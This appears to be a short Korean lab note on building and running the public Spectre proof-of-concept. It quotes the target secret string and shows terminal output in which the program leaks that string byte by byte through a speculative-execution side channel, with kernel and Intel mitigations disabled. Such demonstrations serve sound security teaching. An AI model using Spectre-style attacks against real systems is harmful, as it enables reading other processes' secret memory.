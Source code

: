
`Spectre` 취약점을 이용하여 특정 문자열을 읽어내는 PoC 코드이다. 타겟 문자열 선언부는 다음과 같다.

```c
char * secret = "The Magic Words are Squeamish Ossifrage.";
```



`make`하고 실행해 보았다.

```bash
minibeef@argos-edu:~/spectre/SpectrePoC$ ./spectre.out
Version: commit 856f80f2937f2bb812cab68d45c149272a1783d5
Using a cache hit threshold of 80.
Build: RDTSCP_SUPPORTED MFENCE_SUPPORTED CLFLUSH_SUPPORTED INTEL_MITIGATION_DISABLED LINUX_KERNEL_MITIGATION_DISABLED
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfef58... Success: 0x54=’T’ score=2
Reading at malicious_x = 0xffffffffffdfef59... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfef5a... Success: 0x65=’e’ score=11
Reading at malicious_x = 0xffffffffffdfef5b... Success: 0x20=’ ’ score=11
Reading at malicious_x = 0xffffffffffdfef5c... Unclear: 0x4D=’M’ score=13 (second best: 0x00=’?’ score=7)
Reading at malicious_x = 0xffffffffffdfef5d... Success: 0x61=’a’ score=15 (second best: 0x00=’?’ score=6)
Reading at malicious_x = 0xffffffffffdfef5e... Success: 0x67=’g’ score=11
Reading at malicious_x = 0xffffffffffdfef5f... Unclear: 0x69=’i’ score=13 (second best: 0x00=’?’ score=7)
Reading at malicious_x = 0xffffffffffdfef60... Success: 0x63=’c’ score=11
Reading at malicious_x = 0xffffffffffdfef61... Success: 0x20=’ ’ score=15 (second best: 0x00=’?’ score=6)
Reading at malicious_x = 0xffffffffffdfef62... Unclear: 0x57=’W’ score=13 (second best: 0x00=’?’ score=7)
Reading at malicious_x = 0xffffffffffdfef63... Success: 0x6F=’o’ score=15 (second best: 0x00=’?’ score=6)
Reading at malicious_x = 0xffffffffffdfef64... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfef65... Unclear: 0x64=’d’ score=13 (second best: 0x00=’?’ score=7)
Reading at malicious_x = 0xffffffffffdfef66... Success: 0x73=’s’ score=11
Reading at malicious_x = 0xffffffffffdfef67... Success: 0x20=’ ’ score=11
Reading at malicious_x = 0xffffffffffdfef68... Unclear: 0x61=’a’ score=13 (second best: 0x00=’?’ score=7)
Reading at malicious_x = 0xffffffffffdfef69... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfef6a... Unclear: 0x65=’e’ score=13 (second best: 0x00=’?’ score=7)
Reading at malicious_x = 0xffffffffffdfef6b... Success: 0x20=’ ’ score=9 (second best: 0x00=’?’ score=1)
Reading at malicious_x = 0xffffffffffdfef6c... Success: 0x53=’S’ score=9 (second best: 0x00=’?’ score=1)
Reading at malicious_x = 0xffffffffffdfef6d... Unclear: 0x71=’q’ score=13 (second best: 0x00=’?’ score=7)
Reading at malicious_x = 0xffffffffffdfef6e... Success: 0x75=’u’ score=11
Reading at malicious_x = 0xffffffffffdfef6f... Success: 0x65=’e’ score=11
Reading at malicious_x = 0xffffffffffdfef70... Success: 0x61=’a’ score=11
Reading at malicious_x = 0xffffffffffdfef71... Unclear: 0x6D=’m’ score=13 (second best: 0x00=’?’ score=7)
Reading at malicious_x = 0xffffffffffdfef72... Success: 0x69=’i’ score=11
Reading at malicious_x = 0xffffffffffdfef73... Success: 0x73=’s’ score=11
Reading at malicious_x = 0xffffffffffdfef74... Success: 0x68=’h’ score=11
Reading at malicious_x = 0xffffffffffdfef75... Success: 0x20=’ ’ score=11
Reading at malicious_x = 0xffffffffffdfef76... Success: 0x4F=’O’ score=11
Reading at malicious_x = 0xffffffffffdfef77... Success: 0x73=’s’ score=11
Reading at malicious_x = 0xffffffffffdfef78... Success: 0x73=’s’ score=9 (second best: 0x00=’?’ score=1)
Reading at malicious_x = 0xffffffffffdfef79... Success: 0x69=’i’ score=9 (second best: 0x00=’?’ score=1)
```